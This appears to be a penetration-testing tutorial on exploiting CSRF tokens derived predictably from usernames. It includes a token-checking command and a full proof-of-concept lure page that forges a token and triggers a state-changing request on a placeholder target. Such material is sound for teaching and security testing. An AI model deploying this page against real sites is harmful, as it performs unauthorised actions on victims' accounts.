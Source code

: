 # Exploiting Weak CSRF Tokens

Many web applications do not implement robust token generation algorithms for CSRF (Cross-Site Request Forgery) protection. This note outlines a generic approach to identify and exploit weak CSRF token generation mechanisms, which can be replicated across various web applications.

***

#### 🔍 Identifying Weak CSRF Tokens

1. **Register an Account**: Create a user account on the target application.
2. **Inspect Requests**: Use web developer tools to monitor network requests and identify the CSRF token being used.
3. **Analyze Token Generation**:
   * Check if the CSRF token is generated using predictable algorithms, such as:
     * `md5(username)`
     * `sha1(username)`
     * `md5(current date + username)`

**Example of Token Verification**

To verify if the CSRF token is generated from the username, you can calculate the MD5 hash of the username and compare it to the CSRF token value.

```bash
echo -n username | md5sum
```

If the resulting hash matches the CSRF token, it indicates a weak token generation mechanism.

***

#### 🛠️ Crafting a Malicious Page

Once you identify a weak CSRF token generation mechanism, you can create a malicious page to exploit it. Below is a generic structure for such a page:

**Malicious HTML Page**

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Proof-of-concept</title>
    <script src="./md5.min.js"></script>
</head>
<body>
    <h1>Click Start to win!</h1>
    <button onclick="trigger()">Start!</button>

    <script>
        let host = 'http://target-application.com';

        function trigger() {
            // Creating/Refreshing the token on the server side.
            window.open(`${host}/app/change-visibility`);
            window.setTimeout(startPoc, 2000);
        }

        function startPoc() {
            // Setting the username
            let hash = md5("victim_username");
            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`;
        }
    </script>
</body>
</html>
```
{% endcode %}

**JavaScript for MD5 Hashing**

You will need a JavaScript file for MD5 hashing functionality, which can be included in your malicious page:

```javascript
// md5.min.js content (as provided in the original example)
!function(n){"use strict";...}(this);
```

***

#### 🚀 Executing the Attack

1.  **Serve the Malicious Page**: Use a simple HTTP server to host your malicious page.

    ```bash
    python -m http.server 1337
    ```
2. **Victim Interaction**: The victim must be logged into the target application. When they visit your malicious page and click "Start," the CSRF attack will be executed, potentially changing their profile visibility or performing other actions.
